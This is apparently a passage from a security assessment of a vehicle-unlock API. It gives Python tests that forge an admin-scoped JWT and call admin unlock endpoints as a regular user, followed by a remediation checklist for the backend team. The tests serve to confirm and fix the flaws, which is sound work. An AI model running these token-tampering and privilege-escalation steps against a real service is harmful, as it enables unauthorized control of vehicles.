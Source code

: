 ### Test 2: Token Tampering
```python
import jwt

# Get valid token
api.login("user@email.com", "password")
token = api.access_token

# Decode without verification
payload = jwt.decode(token, options={"verify_signature": False})

# Try to modify scope
payload['scope'] = 'admin'

# Re-encode with weak key
tampered_token = jwt.encode(payload, 'weak_key', algorithm='HS256')

# Test if backend accepts it
api.access_token = tampered_token
success, data = api.unlock_vehicle_admin("TEST_SERIAL", 0.0, 0.0)

if success:
    print("🚨 VULNERABILITY CONFIRMED: Token tampering possible!")
```

### Test 3: Direct Admin Endpoint Access
```python
# Login as regular user
api.login("regular_user@email.com", "password", scope="user")

# Try to access admin endpoints directly
endpoints = [
    ('/api/application/vehicles/unlock/admin', 'POST'),
    ('/api/application/vehicles/sn/TEST123/admin', 'GET'),
    ('/api/application/spots/unlock/admin', 'POST')
]

for endpoint, method in endpoints:
    response = api._make_request(method, endpoint, auth_required=True)
    if response[0]:  # Success
        print(f"🚨 VULNERABILITY: {endpoint} accessible without admin role!")
```

---

## 📋 Security Checklist for Backend Team

### Immediate Actions (Critical)
- [ ] **Remove scope parameter from login endpoint**
- [ ] **Implement server-side role validation on ALL admin endpoints**
- [ ] **Audit existing admin access logs for suspicious activity**
- [ ] **Add authorization checks to every admin endpoint**
- [ ] **Implement comprehensive logging for admin actions**
